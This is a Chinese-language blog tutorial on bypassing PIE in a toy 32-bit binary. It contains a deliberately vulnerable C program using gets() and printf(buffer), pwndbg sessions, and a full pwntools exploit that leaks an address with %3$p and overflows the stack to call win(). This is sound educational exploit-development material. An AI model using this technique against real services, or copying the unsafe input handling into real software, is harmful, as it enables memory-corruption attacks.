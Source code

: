 ```yaml
---
title: 绕过 PIE
subtitle: 使用格式化字符串
date: 2023-08-22T11:38:27+08:00
draft: false
author:
  name: CuB3y0nd
  link:
  email:
  avatar:
description:
keywords:
license:
comment: true
weight: 0
tags:
  - PWN
  - Stack
categories:
  - PWN
hiddenFromHomePage: false
hiddenFromSearch: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: false
  url:
---
```


通过格式化字符串绕过 PIE

<!--more-->

## 0x01 源码

{{< link href="/pwn_assets/pie-fmtstr.zip" content="pie-fmtstr.zip" title="Download pie-fmtstr.zip" download="pie-fmtstr.zip" card=true >}}

```c {title="source.c"}
#include <stdio.h>

void vuln() {
  char buffer[20];

  printf("What's your name?\n");
  gets(buffer);
  
  printf("Nice to meet you ");
  printf(buffer);
  printf("\n");

  puts("What's your message?");

  gets(buffer);
}

int main() {
  vuln();

  return 0;
}

void win() {
  puts("PIE bypassed! Great job :D");
}
```

与上篇文章不同的是，这次我们没有得到任何一个函数的绝对地址。我们必须使用其它
手段来泄漏它。

## 0x02 分析

```
$ ./vuln-32
What's your name?
%p
Nice to meet you 0xf7f3e000
What's your message?
hello
```

测试发现可以使用格式化字符串来泄漏地址。

## 0x03 利用

### 1x01 基础信息

和上次一样，我们首先设置好一些基本内容。

```python
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
p = process()
```

### 1x02 泄漏 PIE

现在我们只需要泄漏地址就好了。我们可以在 `pwndbg` 里面尝试一些不同的偏移量来测试。

```
$ pwndbg vuln-32
What's your name?
%p %p %p %p %p
Nice to meet you 0xf7fc6000 (nil) 0x565561d5 (nil) (nil)
What's your message?
hello
```

第 3 个看起来像一个函数的地址，让我们检查一下第 3 个泄漏值和基地址之间的差异。
在格式化字符串泄漏的值之后的某个位置设置一个断点（在哪里并不重要）。

你也可以直接把断点下在泄漏的这个值上面，设这个断点只是为了能够让我们调试程序。

```
$ pwndbg vuln-32
$ r
What's your name?
%3$p
Nice to meet you 0x565561d5
[...]
$ b *0x565561d5
Breakpoint 1 at 0x565561d5
$ r
[...]
$ vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
     Start        End Perm     Size Offset File
0x56555000 0x56556000 r--p     1000      0 vuln-32
0x56556000 0x56557000 r-xp     1000   1000 vuln-32
[...]
```

我们可以看到基地址是 `0x56555000` ，泄漏的值是 `0x565561d5` 。因此，从泄漏的
地址中减去 `0x11d5` 就会得到二进制文件的基地址。

{{<admonition type="tip">}}

可以通过 `vmmap` 指令来查看程序运行的基地址。

对于没有开启 PIE 的程序，直接用 `checksec` 也可以看到基地址。

{{</admonition>}}

```python
p.recvuntil('name?\n')
p.sendline('%3$p')

p.recvuntil('you ')
elf_leak = int(p.recvline(), 16)

elf.address = elf_leak - 0x11d5
log.success(f'PIE base: {hex(elf.address)}')
```

现在，我们只需要发送 payload 就可以了。

```python
payload = b'A' * 32
payload += p32(elf.sym['win'])

p.recvuntil('message?\n')
p.sendline(payload)

p.interactive()
```

### 1x03 最终 Exploit

```python {title="exp.py"}
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
p = process()

p.recvuntil('name?\n')
p.sendline('%3$p')

p.recvuntil('you ')
elf_leak = int(p.recvline(), 16)

elf.address = elf_leak - 0x11d5
log.success(f'PIE base: {hex(elf.address)}')

payload = b'A' * 32
payload += p32(elf.sym['win'])

p.recvuntil('message?\n')
p.sendline(payload)

p.interactive()
```

## 0x04 64-bit

同样的思路，只是 64-bit。试试看 :)

{{< link href="/pwn_assets/pie-fmtstr-64.zip" content="pie-fmtstr-64.zip" title="Download pie-fmtstr-64.zip" download="pie-fmtstr-64.zip" card=true >}}

